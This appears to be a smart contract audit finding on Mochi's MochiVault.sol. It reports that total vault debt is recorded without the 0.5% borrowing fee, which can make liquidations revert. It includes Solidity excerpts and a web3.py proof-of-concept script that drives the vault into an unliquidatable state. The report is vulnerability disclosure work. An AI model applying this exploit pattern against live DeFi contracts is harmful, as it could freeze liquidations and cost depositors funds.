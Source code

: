 When users borrow usdm from a vault, the debt increases by the amount \* 1.005.

```solidity
    uint256 increasingDebt = (_amount * 1005) / 1000;
```

However, when the contract records the total debt it uses `_amount` instead of `increasingDebt`.

```solidity
details[_id].debtIndex =
    (details[_id].debtIndex * (totalDebt)) /
    (details[_id].debt + _amount);
details[_id].debt = totalDebt;
details[_id].status = Status.Active;
debts += _amount;
```

[MochiVault.sol L242-L249](https://github.com/code-423n4/2021-10-mochi/blob/main/projects/mochi-core/contracts/vault/MochiVault.sol#L242-L249)

The contract's debt is inconsistent with the total sum of all users' debt. The bias increases overtime and would break the vault at the end.

For simplicity, we assume there's only one user in the vault.
Example:

1.  User deposits 1.2 M worth of BTC and borrows 1M USDM.
2.  The user's debt (`details[_id].debt`) would be 1.005 M as there's a .5 percent fee.
3.  The contract's debt is 1M.
4.  BTC price decrease by 20 percent
5.  The liquidator tries to liquidate the position.
6.  The liquidator repays 1.005 M and the contract tries to sub the debt by 1.005 M
7.  The transaction is reverted as `details[_id].debt -= _usdm;` would raise exception.

inaccurate accounting would lead to serious issues. I consider this a high-risk issue.

#### Proof of Concept
This is a web3.py script that a liquidation may fail.

```python
deposit_amount = 10**18
big_deposit = deposit_amount * 100000
minter.functions.mint(user, big_deposit).transact()

dai.functions.approve(vault.address, big_deposit + deposit_amount).transact()

# create two positions
vault.functions.mint(user, zero_address).transact()
vault.functions.mint(user, zero_address).transact()

# # borrow max amount
vault.functions.increase(0, big_deposit, big_deposit, zero_address, '').transact()
vault.functions.increase(1, deposit_amount, deposit_amount, zero_address, '').transact()

vault_debt = vault.functions.debts().call()

# ## This would clear out all debt in vault.
repay_amount = vault_debt + 10**18
usdm.functions.approve(vault.address, repay_amount).transact()

vault.functions.repay(0, repay_amount).transact()

print('debt left:', vault.functions.debts().call())
# ## All the positions would not be liquidated from now on

dai_price = cssr_factory.functions.getPrice(dai.address).call()
cssr_factory.functions.setPrice(dai.address, dai_price[0] // 10).transact()

## this would revert
```